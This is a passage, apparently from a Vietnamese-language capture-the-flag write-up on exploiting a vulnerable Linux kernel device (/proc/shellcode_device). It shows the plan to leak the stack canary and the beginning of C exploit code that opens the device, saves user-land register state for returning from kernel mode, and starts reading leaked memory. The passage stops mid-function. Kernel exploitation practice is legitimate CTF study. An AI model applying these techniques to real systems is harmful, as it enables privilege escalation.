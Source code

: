 ```
#exec su -l ctf

```

### exploit 

- đầu tiên điều ta cần làm là leak libc trước , nhìn vào trong `ida` thì ta cũng có thể thấy idx của canary là 5, nhưng để chắc chắn thì ta có thể tiến hành debug


- lấy địa chỉ module

![image](https://hackmd.io/_uploads/ryS6ahfGex.png)

- đây là đọan code để leak

```c
#define _GNU_SOURCE
#include <dirent.h>
#include <errno.h>
#include <fcntl.h>
#include <poll.h>
#include <pthread.h>
#include <sched.h>
#include <signal.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

typedef uint64_t u64;
typedef int64_t i64;
typedef uint8_t u8;
typedef int8_t i8;

i64 global_fd;
u64 user_cs, user_ss, user_rflags, user_sp;
i64 canary;
#define DEV_VULN "/proc/shellcode_device"

static void open_md() {
  global_fd = open(DEV_VULN, O_RDWR);
  if (global_fd < 0) {
    puts("failed opening");
    exit(-1);
  }
  puts("success opening");
}

static void save_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs,cs;"
          "mov user_ss,ss;"
          "mov user_sp,rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

static void leak_canary() {
  i8 size = 40;
  i64 leak[size];
  i64 data = read(global_fd, leak, sizeof(leak));
```